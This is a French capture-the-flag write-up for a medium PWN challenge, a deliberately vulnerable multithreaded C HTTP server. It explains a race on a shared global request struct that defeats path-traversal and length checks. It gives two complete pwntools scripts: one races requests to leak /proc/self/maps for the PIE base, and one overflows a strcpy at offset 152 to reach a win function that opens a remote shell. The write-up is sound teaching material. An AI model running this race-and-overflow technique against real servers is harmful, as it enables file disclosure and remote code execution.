





# Writeup - Speeeeeed

**Category**: PWN  \
**Author**: [Nosiume](https://github.com/Nosiume) \
**Difficulty**: Moyen \
**Challenge Description**: \


Pour héberger mon super jeu généré par IA de racing super rapide, j'ai codé mon propre server HTTP !!
A l'image de mon jeu celui-ci est super rapide et n'attends jamais rien pour quoi que ce soit :D

Sauras-tu être le plus rapide et battre les protections du server ?

**Artifact Files**: \
[dist.zip](../files/dist.zip)

## Concept du challenge

Ce challenge est un challenge open source. Cet à dire que nous avons le code entier du programme en clair dans le zip donné.
Il s'âgit donc bien d'un server web implémentant HTTP. On y trouve un parser HTTP, un server multi thread pour chacun de ses clients et une fonctionnalité de base de gestion de requêtes qui renvoie le chemin de la ressource demandé relatif à `/var/www/html`. 

La remote a bien un jeu basique généré par IA à la racine mais celui-ci n'a pas d'importance pour le challenge !



Ce server implémente des vérifications constantes sur ces entrées, il n'y a donc pas de vulnérabilité évidente quand on regarde son code rapidement. On peut voir que les path traversal et overflows sont bloqués ici : 

```c
char path_copy[BUF_STACK_SIZE];
size_t checked_path_len = request->path_len;

if (checked_path_len >= sizeof(path_copy)) {
    send_response(ctx->client_fd, 414, "URI Too Long", "text/html",
                    "<h1>Request path is too long.</h1>", false);
    return NULL;
}

if (strstr(request->path, "..") != NULL) {
    send_response(ctx->client_fd, 401, "Unauthorized",
                    "text/html", "<h1>GO AWAY HACKER!!!!</h1>",
                    request->keep_alive);
    return NULL;
}
```

Donc pas moyen d'aller chercher le flag à partir de là ! (Même si on arrive à bypass je n'autorise pas l'utilisateur qui run le server à lire flag.txt sans run un binaire setuid donc oublions ça!)

On peut vérifier que la protection marche bien en demandant `..%2F..%2F..%2F..%2Fetc/passwd` dans le navigateur



De la même manière, le chemin de requête est bloqué si il est trop grand ce qui évite bien les buffer overflows...



## C'est quoi le bug alors ????

Ce server ouvre un nouveau thread pour chaque connexion reçue. Ce qui veut dire que plusieurs requêtes peuvent être traitées simultanément. En prêtant attention aux détails du code, on verra que le parser HTTP utilise une structure globale dans le programme pour effectuer ses calculs sans utiliser de lock !

En bref, tous les threads utilisent la même structure **EN MÊME TEMPS** pour parser leurs requêtes, et ce sans attendre que l'un ait finit d'utiliser les données. On a donc une **race** exploitable !

```c
// Cet global est utilisé par tous les threads sans locks !!!!!
http_request_t current_request = { 0 };
```

De plus, on peut voir que la fonction `get_relative_path` a un délai intégré parfait pour effectuer une attaque [**TOCTOU / race condition**](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use).

```c
static char* get_relative_path(client_ctx_t* ctx, const http_request_t* request) {
    char path_copy[BUF_STACK_SIZE];
    size_t checked_path_len = request->path_len;

    if (checked_path_len >= sizeof(path_copy)) {
        send_response(ctx->client_fd, 414, "URI Too Long", "text/html",
                      "<h1>Request path is too long.</h1>", false);
        return NULL;
    }

    if (strstr(request->path, "..") != NULL) {
        send_response(ctx->client_fd, 401, "Unauthorized",
                      "text/html", "<h1>GO AWAY HACKER!!!!</h1>",
                      request->keep_alive);
        return NULL;
    }

    // This program is so fast ! we need to take a breath...
    usleep(DELAY);

    strcpy(path_copy, resolve_relative_path(request->path));
    return strdup(path_copy);
}
```

En théorie, si nous arrivons à déclencher une requête qui change la valeure de `request->path` pendant le call à `usleep` après que les vérifications d'overflow et de path traversal sont passées, nous pourrons lire tous les fichiers du système et même déclencher un buffer overflow et prendre le contrôle du pointeur d'instruction !!!

De plus, ce challenge restant de difficulté moyenne j'ai été assez sympa et j'ai laissé une fonction win dans le code :pppp

```c
// Can you hit this secret endpoint :O
__attribute__((noinline))
void win(void) {
    dup2(last_client_fd, 0);
    dup2(last_client_fd, 1);
    dup2(last_client_fd, 2);

    system("/bin/sh");
    pthread_exit(NULL);
}
```

Cette fonction transforme le file descriptor de la dernière connection cliente en passthrough vers `stdin`, `stdout` et `stderr` avant d'ouvrir un shell ce qui donne un terminal sur le fd du client.

## Exploitation

Dans un premier temps pour préparer notre plan d'exploitation, on regarde les protections du server http : 
```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

On a donc PIE d'activé. On ne peut donc pas connâitre l'adresse de celle-ci ! 

Cependant, cette tâche est assez facile puisque nous avons, comme mentionné précédement, une path traversal possible à bypass avec notre bug. Le fichier `/proc/self/maps` contient l'entièreté des mappings mémoire dont celui de notre PIE tant désiré. En parvenant à bypass le filtre `..`, on pourrait lire ce fichier et l'obtenir dans une réponse HTTP !

Pour réussir à trigger ce bug, il faudra faire une requête "bénine" (comme /foobar qui renverra 404 Not Found) et avoir plusieurs threads de fond qui effectuent de nombreuses requêtes `../../../../proc/self/maps` qui devraient normalement être bloquées par le filtre.

Le but étant de réécrire `request->path` en `../../../../proc/self/maps` après que la requête `/foobar` ait passé les différents filtres. Avec un timing correct, on devrait récupérer le contenu de `/proc/self/maps` en résultat de la requête `/foobar`.

Voici un script qui fait exactement cela : 

```py
#!/usr/bin/env python3

from pwn import *
import threading

context.log_level = 'error'
context.binary = elf = ELF('../src/build/speeeeeed')

HOST = "127.0.0.1"
PORT = 1337

# this is a race condition challenge, we must first bypass the path traversal filter using the race
def get_http_request(path: str|bytes) -> bytes:
    req = b"".join((
        b"GET ",
        path if isinstance(path, bytes) else path.encode(),
        b" HTTP/1.1\r\n",
        b"Host: race\r\n",
        b"Connection: close\r\n",
        b"\r\n",
    ))
    return req

def racer(path, stop_event):
    context.log_level = 'error'
    req = get_http_request(path)

    while not stop_event.is_set():
        try:
            io = remote(HOST, PORT)
            io.send(req)
            io.recvuntil(b'\r\n\r\n')
            io.close()
        except:
            break

stop_event = threading.Event()
threads = []
for _ in range(32):
    thread = threading.Thread(target=racer, args=("/../../../proc/self/maps", stop_event,), daemon=True)
    thread.start()
    threads.append(thread)

result = ""
for _ in range(10000):
    req = get_http_request("/foobar_path")
    io = remote(HOST, PORT)
    io.send(req)
    data = io.recvuntil(b'\r\n\r\n')
    if b'200' in data:
        result = io.recvall()
        stop_event.set()
        break

for thread in threads:
    thread.join(timeout=0.2)

print(result.decode())
```

En exécutant ce script, on obtient bien le contenu du fichier avec un leak ! 



Maintenant, on peut répéter notre exploit avec un overflow cette fois, puisque la fonction `get_relative_path` utilise `strcpy` et non `strncpy`, pensant que la longueur a été vérifié au préalable.

On peut donc faire un overflow à un offset de **152 octets** pour écraser l'adresse de retour de la fonction `get_relative_path` et sauter sur `win` : 

```py
context.log_level = 'info'
idx = result.index(b'-')
elf.address = int(result[:idx], 16)
info("elf @ " + hex(elf.address))

offset = 152
payload = b'/' + b'A'*offset + p64(elf.sym["win"] + 1)

stop_event = threading.Event()
threads = []
for _ in range(32):
    thread = threading.Thread(target=racer, args=(payload, stop_event,), daemon=True)
    thread.start()
    threads.append(thread)

context.log_level = 'error'
for _ in range(10000):
    req = get_http_request("/foobar_path")
    io = remote(HOST, PORT)
    io.send(req)
    try:
        io.sendline(b"id")
        io.recv(1024)

        stop_event.set()
        for thread in threads:
            thread.join(timeout=0.2)
        
        context.log_level = 'info'
        info("closing threads before opening interactive shell")
        io.interactive()
        break
    except EOFError:
        io.close()
```

En exécutant ce script, on obtient bien un shell sur l'hôte distant !


